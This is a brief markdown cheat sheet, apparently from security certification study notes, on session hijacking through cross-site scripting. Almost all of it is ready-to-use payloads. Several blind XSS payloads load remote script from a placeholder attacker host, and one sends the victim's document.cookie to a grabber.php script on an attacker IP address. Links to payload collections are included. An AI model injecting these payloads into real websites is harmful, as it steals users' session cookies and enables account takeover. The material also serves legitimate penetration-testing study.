


# Session Hijacking

## Blind XSS

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
https://github.com/mandatoryprogrammer/xsshunter-express

```html
"><script src=http://10.10.15.60></script>
```

## Session Hijacking

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc

```html
"><script>document.location='http://10.10.15.60/XSS/grabber.php?c='+document.cookie</script>
```





## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 7- XSS/3 - Session Hijacking.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
